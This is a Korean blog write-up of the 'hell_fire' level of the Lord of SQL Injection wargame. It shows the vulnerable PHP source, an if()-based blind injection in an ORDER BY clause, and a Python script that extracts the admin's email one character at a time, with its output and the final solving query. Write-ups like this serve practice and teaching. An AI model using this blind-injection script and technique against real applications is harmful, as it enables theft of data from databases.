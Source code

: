 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - hell_fire 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제에는 위에 갑자기 표가 나온다.  

그리고 `pw`를 맞추는게 아니라 이번에는 `email` 주소를 알아야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

코드를 살펴보면 내가 입력한 값은 `order by` 뒤에 들어간다.  

그리고 `id, email, score`를 추출 하는데, 이 때 `admin`의 `email` 주소는 `**************`로 처리된다.  

쿼리문 위에는 표가 나타나는데, 형태는 다음과 같다.  

|id|   |email|   |score|
|---|---|---|---|---|

일단 무슨 값이 저장되어 있는지 확인하기 위해서, `?order=id`를 입력해 보았다.  

그랬더니 표에 다음과 같이 데이터가 나왔다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |200|
|rubiya|   |rubiya805@gmail.cm|   |100|

그래서 문제를 어떻게 풀어야하는지 고민하다가, `order by` 뒤에 `if`문을 사용할 수 있다는 사실을 깨달았다.  

내가 처음에 생각 한 방법은, `?order=if(id='admin' and length(email)>0, score, id)`를 쿼리스트링으로 넘겨주는 것이었다.  

그럼 쿼리문이 아래와 같이 완성된다.  

```
select id,email,score from prob_hell_fire where 1 order by if(id='admin' and length(email)>0, score, id)
```

그렇다면 만약 `id`가 `admin`이고, 그 `email`의 길이가 `0`보다 크다면 조건이 참이기 때문에 `score`를 기준으로 정렬 할 것이고, 아니라면 `id`를 기준으로 정렬 할 것이라고 생각했다.  

그럼 참이라면 `rubiya` 행이, 거짓이라면 `admin`의 행이 위에 나타나게 될 것이다.  

실제로 내가 데이터베이스에서 테스트 해 보면 정상적으로 실행 됬었다.  

그런데 문제에서는 그게 안됬다.  

`id`를 `rubiya`로 두고 테스트를 할 때는 제대로 참, 거짓에 따라 `score` 혹은 `id`를 기준으로 정렬했다.  

그런데 `id='admin'`으로 두고 테스트 하면 무조건 `admin`인 행이 위에 나온다.  

왜 때문인지 모르겠다.  

그리고 또 한가지 이상한 점이 있는데, 쿼리스트링으로 `?order=if(id='admin' and length(email)>0, score, 9999)`를 넘겨주면 일단 참, 거짓 반응을 구분할 수 있다.  

하지만 `참`일 때 `score`를 기준으로 정렬하는게 아니라, `거짓`일 때 `score`를 기준으로 정렬을 해 조건이 맞지 않으면 `rubiya`가 위에 나왔다.  

얘도 왜그러는지 모르겠다...ㅎ  

그런데 어쨌든 참, 거짓에 따라 결과가 구분이 되길래 아래와 같이 코드를 짜서 돌려 보았다.  

만약 값이 참이라면 `admin` 행이, 거짓이라면 `rubiya` 행이 위에 나와서, `admin` 행이 위에 나온다면 그 값을 뽑아오게 했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/hell_fire_309d5f471fbdd4722d221835380bb805.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 30):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그랬더니 소스코드가 정상적으로 실행되서 문제를 풀 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  28
[+] Find password
[+] Found 1 : a
[+] Found 2 : ad
[+] Found 3 : adm
[+] Found 4 : admi
[+] Found 5 : admin
[+] Found 6 : admin_
[+] Found 7 : admin_s
[+] Found 8 : admin_se
[+] Found 9 : admin_sec
[+] Found 10 : admin_secu
[+] Found 11 : admin_secur
[+] Found 12 : admin_secure
[+] Found 13 : admin_secure_
[+] Found 14 : admin_secure_e
[+] Found 15 : admin_secure_em
[+] Found 16 : admin_secure_ema
[+] Found 17 : admin_secure_emai
[+] Found 18 : admin_secure_email
[+] Found 19 : admin_secure_email@
[+] Found 20 : admin_secure_email@e
[+] Found 21 : admin_secure_email@em
[+] Found 22 : admin_secure_email@ema
[+] Found 23 : admin_secure_email@emai
[+] Found 24 : admin_secure_email@emai1
[+] Found 25 : admin_secure_email@emai1.
[+] Found 26 : admin_secure_email@emai1.c
[+] Found 27 : admin_secure_email@emai1.co
[+] Found 28 : admin_secure_email@emai1.com
[+] Found password :  admin_secure_email@emai1.com
[+] End
```

이 이메일 주소를 아래와 같이 쿼리스트링으로 넘겨주었더니 문제를 풀 수 있었다.  

```
?email=admin_secure_email@emai1.com
```

근데 왜 처음에 생각한 방법이 먹히지 않는지, 왜 거짓일 때 `score`를 기준으로 정렬하는지는 아직도 모르겠다.  

나중에 알게된다면 정리 해 둬야겠다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

HELL_FIRE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

`HELL_FIRE Clear!!`
